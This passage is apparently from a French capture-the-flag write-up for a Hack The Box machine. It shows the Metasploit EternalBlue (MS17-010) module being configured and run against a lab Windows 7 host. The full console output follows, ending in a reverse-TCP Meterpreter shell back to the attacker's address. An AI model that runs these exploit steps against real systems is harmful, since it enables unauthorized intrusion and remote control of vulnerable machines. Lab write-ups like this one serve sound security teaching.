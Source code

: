 ```bash
   EXITFUNC  thread           yes       Exit technique
   LHOST     192.168.0.48     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Il suffit de définir `RHOSTS` et `LHOST`, qui correspondent respectivement à l'adresse IP de la cible et à notre adresse locale (interface HTB), puis d'exécuter l'exploit :

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => 10.10.16.21
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts target
rhosts => target
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 10.10.16.21:4444
[*] 10.129.2.27:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.129.2.27:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.17/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '*' in regular expression
[*] 10.129.2.27:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.129.2.27:445 - The target is vulnerable.
[*] 10.129.2.27:445 - Connecting to target for exploitation.
[+] 10.129.2.27:445 - Connection established for exploitation.
[+] 10.129.2.27:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.129.2.27:445 - CORE raw buffer dump (42 bytes)
[*] 10.129.2.27:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.129.2.27:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.129.2.27:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.129.2.27:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.129.2.27:445 - Trying exploit with 12 Groom Allocations.
[*] 10.129.2.27:445 - Sending all but last fragment of exploit packet
[*] 10.129.2.27:445 - Starting non-paged pool grooming
[+] 10.129.2.27:445 - Sending SMBv2 buffers
[+] 10.129.2.27:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.129.2.27:445 - Sending final SMBv2 buffers.
[*] 10.129.2.27:445 - Sending last fragment of exploit packet!
[*] 10.129.2.27:445 - Receiving response from exploit packet
[+] 10.129.2.27:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.129.2.27:445 - Sending egg to corrupted connection.
[*] 10.129.2.27:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.129.2.27
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.129.2.27:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.16.21:4444 -> 10.129.2.27:49158) at 2025-08-18 18:26:27 +0200

meterpreter >
```
